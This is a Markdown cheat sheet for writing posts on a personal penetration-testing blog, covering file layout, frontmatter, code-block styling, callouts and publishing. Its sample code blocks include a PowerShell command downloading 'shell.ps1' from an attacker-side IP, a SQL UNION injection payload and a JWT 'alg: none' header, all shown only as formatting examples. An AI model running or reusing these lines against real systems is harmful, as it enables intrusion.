

# ✍️ Blog Writing Cheat Sheet
## mohamedeletrepy.github.io

Everything you need to write posts. Keep this file open while writing.

---

## 📁 Where Files Go

```
mohamedeletrepy.github.io/
│
├── src/content/blog/           ← All blog posts (.md files) go HERE
│   ├── my-post.md
│   └── another-post.md
│
└── public/
    ├── favicon.png             ← Your profile photo (any name: favicon.*)
    ├── cv/
    │   └── my-cv.pdf           ← Your CV (any .pdf file)
    └── images/
        └── posts/
            └── post-name/      ← Post images go here
                ├── cover.png
                └── screenshot.png
```

---

## 📝 Post Frontmatter (Required Header)

Every `.md` file starts with this block between `---` lines:

```yaml
---
title: "Your Post Title Here"
description: "One or two sentences. Shows in search results and blog cards."
pubDate: 2025-04-20
tags: ["Active Directory", "Red Team", "RBCD"]
author: "Mohamed Eletrepy (maverick)"
readingTime: 12
coverImage: "/images/posts/my-post/cover.png"
coverAlt: "Description of the cover image"
---
```

| Field         | Required | Notes                              |
|---------------|----------|------------------------------------|
| `title`       | ✅       | Shown at top of post               |
| `description` | ✅       | 1-2 sentences, max 200 chars       |
| `pubDate`     | ✅       | Format: `YYYY-MM-DD` — must be real date |
| `tags`        | ✅       | Array of strings                   |
| `author`      | ❌       | Defaults to maverick               |
| `readingTime` | ❌       | Number in minutes                  |
| `coverImage`  | ❌       | Path starting with `/`             |
| `coverAlt`    | ❌       | Alt text for accessibility         |
| `draft: true` | ❌       | Hides post from site               |

---

## 💻 Code Blocks — Full Reference

### Kali Linux / Bash (auto-detected from ┌── prompt)

````markdown
```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# nmap -p- --min-rate 10000 -Pn 10.10.11.72
Starting Nmap 7.94...
PORT    STATE SERVICE
88/tcp  open  kerberos-sec
445/tcp open  microsoft-ds
```
````

### PowerShell — Renders with REAL PS Blue Terminal

````markdown
```powershell
PS C:\Users\maverick> Get-ADUser -Filter * -Properties *
PS C:\Users\maverick> Invoke-WebRequest -Uri http://10.10.14.5/shell.ps1 -OutFile C:\Temp\shell.ps1
PS C:\Users\maverick> [System.Security.Principal.WindowsIdentity]::GetCurrent().Name
tombwatcher\administrator
```
````

### Python

````markdown
```python
import impacket
from impacket.krb5.kerberosv5 import getKerberosTGT

target = '10.10.11.72'
username = 'henry'
password = 'H3nry_987TGV!'
```
````

### C / C++ / C#

````markdown
```c
#include <windows.h>
#include <stdio.h>

int main() {
    HANDLE hToken;
    OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken);
    return 0;
}
```
````

### SQL

````markdown
```sql
SELECT username, password_hash FROM users WHERE id = 1
UNION SELECT table_name, NULL FROM information_schema.tables--
```
````

### JSON / YAML

````markdown
```json
{
  "alg": "none",
  "typ": "JWT"
}
```

```yaml
name: Deploy
on:
  push:
    branches: [main]
```
````

---

## 🔷 Mermaid Diagrams

````markdown

````

Supported diagram types: `flowchart`, `sequenceDiagram`, `classDiagram`, `stateDiagram`, `gantt`, `mindmap`, `gitGraph`

---

## 🖼️ Images & Captions

### Image with caption (recommended)

```html
<figure>
  
  <figcaption>BloodHound CE showing GenericWrite from svc_backup to COMPUTER01$</figcaption>
</figure>
```

### Simple image (no caption)

```markdown

```

### Image with inline italic caption

```markdown

*BloodHound CE showing the attack path to Domain Admin*
```

---

## 💬 Callout Boxes

```html
<!-- Blue info box -->
<div class="callout callout--info">

**Note:** This requires valid domain credentials to execute.

</div>

<!-- Yellow warning box -->
<div class="callout callout--warning">

**Warning:** Running this will trigger Windows Defender alerts on default configs.

</div>

<!-- Red danger box -->
<div class="callout callout--danger">

**Danger:** Do NOT run this on production. Lab environments only.

</div>
```

---

## 📖 Blockquotes

```markdown
> This is a blockquote. Use for important notes, 
> quotes from documentation, or key takeaways.
```

---

## 📋 Tables

```markdown
| Attack | Privilege | Tool |
|--------|-----------|------|
| Kerberoasting | Domain User | GetUserSPNs.py |
| DCSync | Domain Admin | secretsdump.py |
| ESC1 | Domain User | Certipy |
```

---

## 🔗 Links & Text Formatting

```markdown
**Bold text** for important terms
*Italic text* for emphasis
`inline code` for commands, paths, usernames
[Link text](https://example.com) for URLs
~~Strikethrough~~ for deprecated stuff

## Section Heading (H2)
### Sub-section (H3)
#### Minor heading (H4)

---   ← horizontal divider
```

---

## 🚀 Quick Publish Workflow

```bash
# 1. Create new post file
touch src/content/blog/my-new-post.md

# 2. Write in VS Code
code src/content/blog/my-new-post.md

# 3. Preview live
npm run dev
# Open http://localhost:4321/blog

# 4. Add images to public/images/posts/my-new-post/

# 5. Deploy
git add .
git commit -m "post: My New Post Title"
git push
# → live in ~60 seconds at mohamedeletrepy.github.io
```

---

## 🗑️ Delete a Post

Just delete the `.md` file and push:

```bash
rm src/content/blog/old-post.md
git add .
git commit -m "remove: old post"
git push
```

The post disappears from the blog automatically. ✅

---

## 🔄 Migrate from Medium (run once)

```bash
# Option A — Live fetch
python3 medium_to_astro.py --username 0xmaverick --output ./src/content/blog

# Option B — From Medium export ZIP (most reliable)
python3 medium_to_astro.py --export-dir ~/Downloads/medium-export/posts --output ./src/content/blog
```

After running: `npm run dev` → check `/blog` → fix any formatting → `git push`.

---

## 📦 Update Profile Image

Drop any image file into `/public/` named `favicon`:
```
public/favicon.png    ← or .jpg, .webp, .ico — any format works
```
It becomes both the **browser tab icon** and the **profile image** in About page. Push to deploy.

## 📄 Update CV

Drop any PDF into `/public/cv/`:
```
public/cv/Mohamed-Eletrepy-Resume.pdf   ← any filename works
```
The Download button in About page automatically links to it. Push to deploy.
